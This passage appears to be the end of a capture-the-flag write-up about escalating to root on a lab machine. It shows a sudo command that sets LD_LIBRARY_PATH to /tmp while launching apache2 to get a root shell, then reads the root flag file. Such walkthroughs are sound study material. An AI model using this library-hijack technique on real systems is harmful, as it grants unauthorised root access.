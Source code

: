When we run the following command using `sudo`, it will spawn a bash shell as `root`:

```sh
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

![a9aab9445bd2eabcba29434b77d55dc9.png](/resources/1ca2a88278294df6bede3ac1811ffdb0.png)

The final flag is in `/root/root.txt`:

```sh
cat /root/root.txt
```

![3229d577809ad38b34f19bb0abd0e591.png](/resources/67529682200c49bead3fbf14e4d95834.png)
